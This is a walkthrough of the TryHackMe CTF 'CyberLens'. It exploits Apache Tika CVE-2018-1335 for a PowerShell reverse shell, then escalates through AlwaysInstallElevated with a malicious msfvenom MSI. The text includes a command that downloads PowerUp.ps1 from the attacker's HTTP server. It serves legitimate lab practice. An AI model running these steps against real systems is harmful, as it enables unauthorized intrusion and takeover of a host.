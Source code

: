 # CyberLens - TryHackMe 

---

This is a writeup for the easy CTF "CyberLens" on TryHackMe. This room is located at https://tryhackme.com/r/room/cyberlensp6 and is a free room. I am documenting the process I used to find all information in this writeup **WITHOUT** including any flags, in the spirit of the game. However, following this process exactly should result in a full compromise of the target system.

Finally, this room is easily solved using Metasploit, and this is far simpler and likely the best way to solve. However, as this is intended to be an OSCP-like lab, I will be presenting this writeup without the use of Metasploit.

---

## Recon, Scanning, and Enumeration

My first step was to export the box's IP address to a variable that I could use easily for the rest of the engagement. Next I pinged the box to ensure that it was alive and ready for enumeration.

![](./screenshots/ping.png)

Next I ran a quick `nmap` scan to see which ports were responding on the host: 

![](./screenshots/nmapquick.png)

After that I wanted to further enumerate the service versions and run some basic `nmap` scripts against these ports:

![](./screenshots/nmapdetails.png)

There is another important port open on this machine, but we will discover that through further enumeration later, so at this point we will not need to run a full ports scan.

We see that we have an Apache HTTP server running on port 80, as well as RPC, SMB, and RDP, services that are commonly seen on Windows servers. The most actionable of these is HTTP, so we'll pivot to enumerating the webpage next.

The web root hosts a "Welcome to CyberLens" homepage, with an interesting link to the "CyberLens Image Extractor:"

![](./screenshots/webroot.png)

This appears to be a file upload portal that will evaluate the metadata of the uploaded file:

![](./screenshots/extractor.png)

If we upload an arbitrary file and intercept the web request with Burp Suite, we can see that this upload functionality is making an OPTIONS request to cyberlens.thm (our hostname) at port 61777, and trying to make a PUT request for the file we are uploading:

![](./screenshots/options.png)

We can confirm that there is indeed a service running on port 61777, and interestingly it is running Apache Tika 1.17:

![](./screenshots/nmap61777.png)

## Initial Access

A quick Google search shows that there is a command injection vulnerability in Apache Tika. When your first result on an exploit search is from Rapid7, there's a good chance that there's a Metasploit module for the exploit you are researching, and that is the case for us. We won't use it for this writeup, but if you are only interested in the quick points, this exploit is very point-and-click. 

Note also that there is an article from Rhino Security Labs (https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/), written by the researcher, David Yesland, and discussing in depth the discovery and mechanics of the vulnerability. This is worth a read.

Finally, we can see that exploit code has been posted to Github, which is an OSCP-friendly route, if you're trying to practice saving your Metasploit usage:

![](./screenshots/googletika.png)

I ended up using the exploit from the Rhino Security Labs github (https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2018-1335), written by David Yesland and adapted to python3 by Tyler Ramsbey (the creator of this lab). I had a couple of minor issues with the current version of the script, so I have a forked version (https://github.com/bradyjmcl/Rhino-Sec-CVEs/blob/bradyjmcl-patch-1/CVE-2018-1335/CVE-2018-1335.py) that I will use for this demonstration.

After reviewing the script, we can see that it takes three arguments - the IP address, the Tika port, and the command that we want to run. Since our command will be multiple arguments, we will need to wrap it in quotes. I will be using the "PowerShell #3 (Base64)" payload from revshells.com:

![](./screenshots/exploit.png)

## Privilege Escalation

Now that we have access to a user account, it's time to escalate our privileges to system-level. A fan-favorite for enumerating privilege escalation vectors is WinPEAS, but since this wasn't running properly in my PowerShell reverse shell, I used PowerUp.ps1, which we can upload with a method of our choice (I used `powershell iwr http://<my IP>/powerup.ps1 -Outfile C:\users\public\powerup.ps1` to download from a python3 HTTP server, hosted using `python3 -m http.server 80`), and run on the host. We have to first load the PowerShell module, then run the Invoke-AllChecks function:

![](./screenshots/powerup.png)

Here, we can see that the AlwaysInstallElevated registry keys are enabled. We could check these manually, if we needed confirmation that the script is working properly:

![](./screenshots/regquery.png)

With these keys enabled, all users are able to run Windows Installer Files (.msi) with elevated privileges. We can use `msfvenom` to create a malicious installer file, which we can use to run arbitrary commands:

![](./screenshots/msfvenom.png)

Since I already know that this PowerShell reverse shell payload works, I'm just going to re-use it to get an elevated reverse shell. You could also use the windows/exec commands to add users to groups or add privileges to our current user, but we can just do those with our elevated shell if we need to.

Now that we have our malicious installer file generated, it's just a matter of uploading this file and running it. We can use `msiexec` with the `/quiet` flag to specify that no user interaction is required, `/qn` to specify that there is no UI during the "installation," and `/i` to specify normal "installation." With these flags, we should be able to get a system-level shell:

![](./screenshots/rooted.png)

Thanks to TeneBrae93 for the creation of this challenge!